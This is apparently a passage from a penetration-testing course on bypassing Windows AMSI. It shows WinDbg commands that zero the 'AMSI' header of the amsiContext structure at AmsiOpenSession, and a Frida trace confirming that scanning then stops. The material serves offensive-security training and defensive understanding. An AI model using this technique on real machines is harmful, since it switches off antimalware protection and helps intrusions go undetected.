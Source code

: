 > Listing 27 - Function prototype for AmsiOpenSession

HRESULT values are documented and can be referenced on MSDN where we find that the numerical value 0x80070057 corresponds to the message text _E_INVALIDARG_.[2](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5178-2) The message text, while not especially verbose, indicates that an argument, which we would assume to be _amsiContext_, is invalid.

In short, this error occurs if the context structure has been corrupted. If the first four bytes of _amsiContext_ do not match the header values, _AmsiOpenSession_ will return an error. What we don't know is what effect that error will cause. In a situation like this, there are typically two ways forward.

The first is to trace the call to _AmsiOpenSession_ that returns this error and try to figure out where that leads. This could become very time-consuming and complex. The second, and much simpler, approach is to force a failed _AmsiOpenSession_ call, let the execution continue, and observe what happens in our Frida trace. Let's try this approach first.

In order to force an error, we'll place a breakpoint on _AmsiOpenSession_ and trigger it by entering a PowerShell command. Once the breakpoint has been triggered, we'll use ed to modify the first four bytes of the context structure, and let execution continue:

```
0:014> bp amsi!AmsiOpenSession

0:014> g
Breakpoint 0 hit
amsi!AmsiOpenSession:
00007fff`c75c24c0 e943dcdb0b      jmp     00007fff`d3380108

0:006> dc rcx L1
000001f8`62fa6f40  49534d41                             AMSI

0:006> ed rcx 0

0:006> dc rcx L1
000001f8`62fa6f40  00000000                             ....

0:006> g
```

> Listing 28 - Modifying the context structure header

After overwriting the AMSI header value, we'll continue execution, which generates exceptions:

```
30024801 ms  [*] AmsiOpenSession()
30024801 ms  |- amsiContext: 0x1f862fa6f40
30024801 ms  |- amsiSession: 0x7fff37328268

30024803 ms  [*] AmsiOpenSession() Exit
30024803 ms  |- HRESULT value is: 0x80070057
```

> Listing 29 - No additional AMSI APIs are called after corrupting the header
